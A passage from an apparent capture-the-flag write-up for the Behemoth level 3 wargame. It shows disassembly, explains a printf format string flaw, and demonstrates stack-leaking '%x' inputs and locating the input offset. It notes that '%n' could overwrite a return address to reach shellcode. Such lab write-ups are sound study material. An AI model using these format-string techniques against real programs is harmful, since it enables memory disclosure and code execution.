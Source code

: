 ```
|           0x080484b2      c70424748504.  mov dword [esp], str.Welcome_ ; [0x8048574:4]=0x636c6557 ; "Welcome, "
|           0x080484b9      e872feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x080484be      8d442418       lea eax, [local_18h]        ; 0x18 ; 24
|           0x080484c2      890424         mov dword [esp], eax
|           0x080484c5      e866feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x080484ca      c704247e8504.  mov dword [esp], str._naaaand_goodbye_again. ; [0x804857e:4]=0x6161610a ; "\naaaand goodbye again."
|           0x080484d1      e87afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484d6      b800000000     mov eax, 0
|           0x080484db      c9             leave
\           0x080484dc      c3             ret
[0xf7fdaa20]> 
```

There issues are less obvious compared to the last few levels. From analyzing the assembly it seems we might be able to make use of a format string exploit.

I could probably write a whole other blog post on format string exploits alone but there's already a ton of good content online that goes into the details of how it works (https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf).

The issue in this executable is that printf after fgets doesn't use a format specifier in the string. For a correct implementation, the string "Welcome, " should be replaced with "Welcome, %s" which would then copy in our input as a string. Instead, we have something similar to `"Welcome, " + input`. If input is equal to "%x%x", we would actually cause the string input into printf to be "Welcome, %x%x". This would then read the first two values off the stack to populate the two "%x"s. This gives us a method to actually read values off of the stack. 

Reading the stack doesn't seem that dangerous but the "%n" specifier can be used to write a value instead of just reading a value like the other specifiers. Therefore, with a specially crafted input string, we could potentially overwrite a jump or return value on the stack to point to some shellcode.

OK let's try to read some stack values.
```bash
behemoth3@behemoth:/behemoth$ python -c 'print "%08x.%08x.%08x.%08x"' | ./behemoth3 
Identify yourself: Welcome, 000000c8.f7fc75a0.ffffd5ec.f7fe2fc9

aaaand goodbye again.
behemoth3@behemoth:/behemoth$ 
```
In case you are wondering why my input looks different, I decided to prefix "08" infront of 'x' which will cause it to print out the hexadecimal value as 8 characters even if the beginning characters are '0's. The decimal I added inbetween just assists with making the output easier to read.

As we see, the input does indeed print the first four words. Next it's useful to determine where on the stack our input string lies. To do this, we can prepend a known characters to the front of our specifiers like so:
```bash
Identify yourself: Welcome, AAAA000000c8.f7fc75a0.ffffd5ec.f7fe2fc9.00000000.41414141.78383025.3830252e.

aaaand goodbye again.
``` 
